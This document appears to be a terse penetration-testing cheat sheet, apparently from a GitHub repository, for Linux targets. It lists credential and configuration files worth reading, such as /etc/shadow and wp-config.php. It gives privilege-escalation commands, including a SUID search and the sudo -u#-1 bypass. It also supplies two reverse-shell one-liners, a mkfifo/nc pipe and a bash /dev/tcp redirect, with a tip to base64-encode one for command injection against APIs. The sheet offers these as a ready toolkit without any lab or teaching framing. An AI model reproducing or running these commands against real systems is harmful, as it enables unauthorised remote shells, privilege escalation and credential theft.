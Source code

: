 ## Important files (Default Location)
```
/etc/passwd
/etc/group
/etc/shadow
/var/www/html/
/var/www/
/tmp/
/home/
/var/log/nginx/access.log
/var/log/apache/access.log
/var/log/auth.log
/etc/apache2/sites-available/000-default.conf
/etc/samba/smb.conf
/var/www/html/wordpress/wp-config.php
/etc/fstab
```

### PrivEsc
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
sudo -l   # /etc/sudoers
find / -perm -4000 2>/dev/null    # file with suid
sudo -u#-1 /bin/bash
```

### Reverse Shell
```
echo "bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1" |bash    # base64 encode the echo cmd; use for os command injection (api)
```

### Not So Important But May Be Useful (Default Location)
```
/proc/cpuinfo
```

### PATH & Restricted Shell
```
export PATH=/tmp:$PATH
ssh alfred@10.11.1.101 -t "bash --noprofile"
```

### Docker
```
docker build -t [image-name] [Dockerfile location]    # building a docker image from the image file
docker run [image-name]   # running the docker image
```

### Network & Firewall rules
```
iptables -L
cat /etc/sysconfig/iptables
cat /etc/resolv.conf
```
